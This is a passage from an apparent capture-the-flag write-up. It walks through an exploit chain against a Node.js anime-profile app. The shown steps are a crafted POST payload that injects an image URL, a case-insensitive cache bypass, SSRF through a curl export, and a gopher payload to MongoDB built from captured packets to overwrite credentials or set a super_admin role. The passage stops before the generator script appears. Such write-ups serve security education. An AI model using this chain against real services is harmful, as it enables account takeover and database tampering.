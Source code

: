 ```js
      throw new Error('No IDOR for u');
    }
    myCache.set(`user_${username}`, user);
  }
  const userSecret = req.body.secret;
  delete req.body.secret;
  const s = JSON.stringify(req.body).toLowerCase();
  if (s.includes('secret') || s.includes('username') || s.includes('role')) {
    throw new Error("Can't change those fields");
  }
  await User.findOneAndUpdate({ username: user.data.username, 'data.secret': userSecret }, req.body);
  res.sendStatus(204);
});
```

-> Just make POST request to the above endpoint with this payload:
```
secret=zItTSlcRHxEK2V3Zcdyp&data.favorites.anime[0][images][webp][large_image_url]=URL
```

But to get the secret above, we have to make a random user profile and go to that user profile to get the secret -> It unfortunaly get cached by this code:
```js
router.get('/user/:username/profile', async (req, res) => {
  const username = req.params.username;
  if (myCache.has(`user_${username}`)) {
    const user = myCache.get(`user_${username}`);
    res.render('user/userprofile', { data: user.data });
  } else {
    try {
      const existed_user = await jakanUsers.users(username, 'full');
      const user = await User.findByUsername(existed_user.data.username);
      if (!user) {
        throw new Error("No user exist")
      } 
      myCache.set(`user_${username}`, user);
      res.render('user/userprofile', { data: user.data });
    } catch (error) {
      throw new Error(error.message);
    } 
  }
});
```

But we can bypass the cache by go to `user/hEllo/profile`, because the username is case-insensitive -> Then the image tag will appear as we want. Then just go to `user/hEllo/export` for the `curl` to work

And the most important part: craft `gopher` payload. I install `tcpdump` in docker container then `tcpdump -i eth0 'port 27017' -w flag3.pcap`, then open that pcap in `wireshark` and get the packet. For `flag1`, I just add the code like this in `/login` route.
```js
const userdata2 = await User.findOneAndUpdate({ username: "Dat2Phit" }, { salt: '68ba7373c01e6c77a78938ade5ea9db6', hash: '51da9bed9992373ff271132a4bf1061c30c973d68ce1913f5779ebabbe68cc9f'}, { new: true });
```
For `flag3`, to get the packet I add code like this:
```js
const userdata2 = await User.findOneAndUpdate({ username: "hello" }, { role:"super_admin"}, { new: true });
```
After getting the raw hex of the packet I just use this small script to generate URL:
